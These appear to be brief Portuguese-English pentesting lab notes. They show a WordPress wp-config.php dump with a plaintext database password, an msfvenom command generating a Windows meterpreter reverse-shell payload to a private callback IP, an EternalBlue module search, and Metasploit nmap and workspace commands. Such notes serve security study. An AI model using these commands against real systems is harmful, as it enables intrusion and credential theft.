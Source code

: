 
arquivo de configuração:
contem informações úteis do banco de dados
```
cat wp-config.php


// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');


/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

```

# msfvenom (preencher/falta fazer)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.1.222 LPORT=1337 -f exe -o payload.exe
```

# msfconsole
```
search eternalblue
```

create a workspace
```
workspace -a desec
```

switch to workspace
```
workspace desec
```

nmap and store results
```
db_nmap -sC -sV -v -Pn <IP>
```

show previous hosts
```
hosts
```

consult previous nmap results
```
services
services 172.30.0.103
```
